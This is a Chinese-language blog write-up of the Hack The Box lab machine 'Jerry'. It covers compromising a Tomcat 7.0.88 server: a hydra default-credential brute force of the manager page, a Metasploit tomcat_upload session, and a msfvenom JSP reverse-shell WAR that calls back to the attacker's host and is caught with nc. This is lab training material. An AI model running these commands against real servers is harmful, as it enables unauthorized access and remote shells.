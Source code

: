 ```yaml
---
title: Jerry
date: 2021-12-24 11:29:39
tags: Hack The box
categories: 中间件
---
```


## 靶机信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/d5f1dc82530e485e91e914d59c62f9ff.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 信息收集

我们可以看到，目标主机只开放了8080端口，而且版本还是`7.0.88`的
![在这里插入图片描述](https://img-blog.csdnimg.cn/12b2a2ded3544b248ce0ae24e4c30139.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们立马登录tomcat页面，并且尝试账户和密码都是admin，看看能不能登录成功，结果是失败的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/14569a31b1e04d76855654582e15e833.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a1c59a404d30477d9434d5ca81214227.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们下载`seclists`这个工具，对tomcat的默认用户名和密码进行暴力破解
![在这里插入图片描述](https://img-blog.csdnimg.cn/4573275f27314e41997be90a187c528b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们使用hydra工具对账号密码进行破解，发现账号是tomcat，密码是s3cret

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2e489a5e1395436f87bbc2c1c05db04b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### MSF获取权限

```bash
search tomcat_mgr
use exploit/multi/http/tomcat_upload
show options
set rhosts 10.10.10.95
set lhost 10.10.14.11
set httpusername tomcat
set httppassword s3cret
set rport 8080
exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/405b1654a30e4fd8b5ff405938d24a51.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们获取一个shell，发现已经是最高权限了
![在这里插入图片描述](https://img-blog.csdnimg.cn/efd9843d30e5431cbe6ae1408fbcb011.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查看到flag值了
![在这里插入图片描述](https://img-blog.csdnimg.cn/89ecac8618f24fdf9edd6cf96a419036.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### NC反弹shell

首先我们先准备一个木马

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=1234 -f war > shell.war
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/c4abdde92c484b46ac8782a2c62da4fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用账号密码登录进部署页面，并将生成的木马部署进tomcat服务器上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9dd05049c33f45cf971a5f70a9a6d2e8.png)
然后我们启动nc进行监听，并且在浏览器上浏览我们刚刚上传的war包，反弹shell成功。
![在这里插入图片描述](https://img-blog.csdnimg.cn/fbcd897e89c149549ead8a54352163ae.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/488c679d14e64be28972f71dab63504a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
